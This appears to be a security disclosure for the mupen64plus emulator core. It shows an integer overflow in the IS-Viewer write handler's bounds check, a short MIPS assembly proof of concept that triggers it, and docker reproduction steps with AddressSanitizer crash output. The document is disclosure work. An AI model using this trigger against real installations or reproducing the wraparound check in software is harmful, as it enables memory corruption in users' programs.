


#### Integer Overflow in *write_is_viewer*

Both `is_viewer->buffer_pos` and `word` are variables of type uint32_t, so their addition may result in integer overflow, causing the result to become smaller.

```c
// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/cart/is_viewer.c#L59
void write_is_viewer(void* opaque, uint32_t address, uint32_t value, uint32_t mask)
{
    struct is_viewer* is_viewer = (struct is_viewer*)opaque;
    address &= IS_ADDR_MASK;
    uint32_t word = value & mask;
    if (address == 0x14)
    {
        if (word > 0)
        {
            /* make sure we don't overflow the buffer */
            if (is_viewer->buffer_pos + word > IS_BUFFER_SIZE)
            {
                /* reset buffer */
                memset(is_viewer->output_buffer, 0, IS_BUFFER_SIZE);
                is_viewer->buffer_pos = 0;
                DebugMessage(M64MSG_WARNING, "IS64: prevented buffer overflow, cleared buffer");
                return;
            }

            memcpy(&is_viewer->output_buffer[is_viewer->buffer_pos], &is_viewer->data[0x20], word);
            ...
        }
        ...
    }
    ...
}
```



- poc.asm

```
.section .shellcode,"awx"
.global _start
_start:
li    $a0, 0x93ff0014
li    $a1, 0xe00
sw    $a1, 0($a0)
li    $a1, 0xfffffffc
sw    $a1, 0($a0)
```


- reproduction

```
$ docker run -itv $(pwd):/mupen64plus --rm ubuntu:22.04 
root@c563c255a375:/# apt-get update
root@c563c255a375:/# apt-get install -y libasan6 libsdl2-2.0-0 libgl1 libglu1-mesa libvulkan1 libbinutils
root@c563c255a375:/# cd /mupen64plus/ 
root@c563c255a375:/mupen64plus# ./mupen64plus ./maliao.z64
...
==1484==ERROR: AddressSanitizer: memcpy-param-overlap: memory ranges [0x7f76e91c9258,0x7f76e91ca258) and [0x7f76e91c8278, 0x7f76e91c9278) overlap
    #0 0x7f76ed7c41ed in __interceptor_memcpy ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:827
    #1 0x7f76e7b99834 in write_is_viewer ../../src/device/cart/is_viewer.c:68
    #2 0x7f76e7c349e6 in mem_write32 ../../src/device/memory/memory.h:87
    #3 0x7f76e7c35f9c in r4300_write_aligned_word ../../src/device/r4300/r4300_core.c:372
    #4 0x7f76e7c9ec4c in dynarec_write_aligned_word ../../src/device/r4300/recomp.c:961
    #5 0x7f76c65b5082  (<unknown module>)

0x7f76e91c9258 is located 21311320 bytes inside of global variable 'g_dev' defined in '../../src/main/main.c:114:15' (0x7f76e7d76300) of size 21318904
0x7f76e91c8278 is located 21307256 bytes inside of global variable 'g_dev' defined in '../../src/main/main.c:114:15' (0x7f76e7d76300) of size 21318904
SUMMARY: AddressSanitizer: memcpy-param-overlap ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:827 in __interceptor_memcpy
==1484==ABORTING
```

